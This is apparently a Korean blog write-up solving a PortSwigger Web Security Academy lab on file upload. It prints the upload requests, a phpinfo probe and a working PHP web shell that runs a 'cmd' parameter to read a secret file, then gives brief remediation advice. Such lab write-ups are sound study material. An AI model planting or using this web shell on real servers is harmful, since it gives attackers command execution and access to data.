





+++
date = '2026-09-27T20:30:00+09:00'
draft = false
title = "[Write-up] PortSwigger - Remote code execution via web shell upload"
summary = "검증 없이 저장되는 아바타 파일을 PHP로 업로드하고 실행 경로에서 랩의 대상 파일을 읽는 File Upload 풀이"
toc = true
tags = ["File Upload", "Web Shell", "PortSwigger", "Apprentice"]
+++

---

## 문제 분석

> **난이도**: `APPRENTICE`  
> **Lab**: [Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

> 

이 랩은 아바타 파일을 서버에 저장하기 전에 파일 형식이나 내용을 검증하지 않는다. PHP 파일을 업로드하고 `/home/carlos/secret`의 내용을 읽어 제출하면 문제가 해결된다.

실습 계정은 `wiener:peter`다.

### File Upload 진단

먼저 주어진 실습 계정으로 로그인하여 My Account 페이지에 접근하면 Avatar 파일 업로드 기능이 존재한다.



업로드 요청의 파일 본문을 `image`라는 텍스트로 바꿔 전송한다.

```text
POST /my-account/avatar HTTP/2
Host: 0a9d009b0322070b8008dbc400440067.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBaz8hEyI5HwPbYIt
...

------WebKitFormBoundaryBaz8hEyI5HwPbYIt
Content-Disposition: form-data; name="avatar"; filename="fake-image.png"
Content-Type: image/png

image
------WebKitFormBoundaryBaz8hEyI5HwPbYIt
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryBaz8hEyI5HwPbYIt
Content-Disposition: form-data; name="csrf"

MmJ8YlpcarKwfSrSDVYN5nLNG4vKfsWw
------WebKitFormBoundaryBaz8hEyI5HwPbYIt--
```

업로드는 성공한다. My Account 페이지에서 아바타 주소를 확인하면 `/files/avatars/fake-image.png`를 참조하고 있으며, 이 URL로 파일에 접근할 수 있다.

파일 이름을 `phpinfo.php`, 내용을 `<?php phpinfo(); ?>`로 바꾸어 PHP 실행 여부를 확인한다.

```text
...
------WebKitFormBoundaryBaz8hEyI5HwPbYIt
Content-Disposition: form-data; name="avatar"; filename="phpinfo.php"
Content-Type: image/png

<?php phpinfo(); ?>
------WebKitFormBoundaryBaz8hEyI5HwPbYIt
...
```

`/files/avatars/phpinfo.php`에 접근하면 PHP 정보 페이지가 반환된다.



---

## 익스플로잇

PHP 실행을 확인했으므로, `cmd` 파라미터로 전달한 값을 실행하는 다음 파일을 업로드한다.

```text
------WebKitFormBoundaryBaz8hEyI5HwPbYIt
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/png

<?php echo "Shell";system($_GET['cmd']); ?>
------WebKitFormBoundaryBaz8hEyI5HwPbYIt
```

`/files/avatars/shell.php?cmd=cat+/home/carlos/secret`로 접근하면 랩에서 지정한 파일 내용이 반환된다.



확인한 문자열을 제출하면 실습이 완료된다.



---

## 정리

파일 검증이 없는 업로드 기능과 PHP 실행이 허용된 저장 경로가 연결되어 있었다. `phpinfo()`의 출력으로 실행 여부를 확인한 뒤, 같은 권한으로 랩에서 지정한 파일을 읽을 수 있었다.

업로드한 파일의 종류를 제한하고, 사용자 파일을 저장하는 경로에서는 서버 측 코드 실행을 차단해야 한다. 파일을 받아들이는 단계와 저장된 파일을 처리하는 단계를 함께 확인하는 것이 핵심이다.

유형별 원리와 다른 실습은 [File Upload Lab](/lab/portswigger-file-upload/)에 정리했다.
